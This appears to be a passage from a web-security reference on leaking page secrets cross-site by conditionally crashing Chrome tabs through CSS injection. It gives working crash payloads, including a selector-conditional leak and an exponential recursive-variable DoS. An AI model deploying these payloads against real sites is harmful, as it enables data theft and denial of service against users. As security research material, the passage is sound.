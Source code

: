 If the input value starts with an `S`, the property is loaded and the tab will crash. Otherwise, the tab will remain executing normally. The crucial part that makes this detectable cross-site is the fact that if one instance of an origin crashes, all other same-site documents in the same tab context group also crash. This comes from [Full Site Isolation](https://chromium.googlesource.com/chromium/src/+/main/docs/process_model_and_site_isolation.md#Full-Site-Isolation-site_per_process) because they share a process.

**One way** this is **detectable** is using a few dummy iframes on the attacker's page of the same site with any path, and measuring `onload=` events. Once you conditionally crash the target in a popup window, the iframes on your page will crash with it and **stop emitting** `onload=` events. This is detectable, and doing it repeatedly allows reading larger strings (albeit a bit slow).

My writeup below shows me practically using it as an unintended solution to a CTF challenge:

{% embed url="https://jorianwoltjer.com/blog/p/ctf/x3ctf-blogdog-new-css-injection-xs-leak#xs-leak-using-process-crashing" %}
Writeup of unintentional solution about this new technique, and PoC's
{% endembed %}

***

Some CSS crashes like [issue 433073118](https://issues.chromium.org/issues/433073118) are useful to crash the page _if it is rendered_, but **don't allow** inserting conditional selectors to make it exploitable for CSS Injection. Because the crash happens while parsing it doesn't matter if it's used or not.

{% code title="Always crashes" %}
```html
<style>::placeholder{&{&{
```
{% endcode %}

In comparison, another more useful crash was [issue 435225409](https://issues.chromium.org/issues/435225409) where a **selected would have to match** for the crash to occur:

<pre class="language-html" data-title="Conditionally crashes"><code class="lang-html">&#x3C;style>
@starting-style {
<strong>  input[value^="S"]::first-letter {
</strong>    color: red;
  }
}
&#x3C;/style>
&#x3C;input value="SECRET">
</code></pre>

One **non-issue** way to crash _Chrome for Windows_ (doesn't happen on Linux for some reason) relatively quickly is using a recursive DoS payload with variables that reference each other resulting in exponential growth:

```css
html {
  --a: url(/?1),url(/?1),url(/?1),url(/?1),url(/?1);
  --b: var(--a),var(--a),var(--a),var(--a),var(--a);
  --c: var(--b),var(--b),var(--b),var(--b),var(--b);
  --d: var(--c),var(--c),var(--c),var(--c),var(--c);
  --e: var(--d),var(--d),var(--d),var(--d),var(--d);
  --f: var(--e),var(--e),var(--e),var(--e),var(--e);
  --g: var(--f),var(--f),var(--f),var(--f),var(--f);
}
html:has(input[value^="S"]) {
  background-image: var(--g);
}
```
